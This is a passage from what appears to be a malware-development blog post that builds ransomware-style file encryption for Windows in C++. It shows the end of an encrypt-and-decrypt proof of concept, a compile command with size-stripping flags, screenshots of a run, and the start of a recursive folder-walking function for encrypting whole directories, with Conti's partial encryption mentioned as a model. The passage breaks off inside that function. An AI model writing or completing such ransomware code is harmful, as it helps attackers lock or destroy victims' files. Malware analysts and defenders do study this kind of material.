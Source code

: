 ```cpp
  printf("decrypting file: %s\n", encrypted_file);
  decrypt_file(encrypted_file, decrypted_file, key);

  printf("done!\n");
  return 0;
}
```

As you can see, for test I just encrypt file `test.txt` and decrypt it.    

### demo

Let's compile our PoC code:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![cryptography](/assets/images/115/2024-01-20_20-03.png){:class="img-responsive"}      

Then just run it on Windows 10 x64 machine:    

```powershell
.\hack.exe
```

As a result, two new files `test-enc.bin` and `test-dec.txt` were created.    

![cryptography](/assets/images/115/2024-01-20_20-07.png){:class="img-responsive"}      

![cryptography](/assets/images/115/2024-01-20_20-11.png){:class="img-responsive"}      

![cryptography](/assets/images/115/2024-01-20_20-12.png){:class="img-responsive"}      

As we can see, everything is wokred perfectly! =^..^=   

### practical example 2

But, in the wild, ransomware do not always encrypt the entire file if it is very large. For example [Conti ransomware](/investigation/2022/03/27/malw-inv-conti-1.html) used partial encryption.

Also ransomware recursive encrypt folders, it might look something like this:     

```cpp
void handleFiles(const char* folderPath, uint64_t key) {
  WIN32_FIND_DATAA findFileData;
  char searchPath[MAX_PATH];
  sprintf_s(searchPath, MAX_PATH, "%s\\*", folderPath);

  HANDLE hFind = FindFirstFileA(searchPath, &findFileData);

  if (hFind == INVALID_HANDLE_VALUE) {
    printf("Error: %d\n", GetLastError());
    return;
  }

  do {
    const char* fileName = findFileData.cFileName;

    if (strcmp(fileName, ".") == 0 || strcmp(fileName, "..") == 0) {
      continue;
    }

    char filePath[MAX_PATH];
    sprintf_s(filePath, MAX_PATH, "%s\\%s", folderPath, fileName);
```
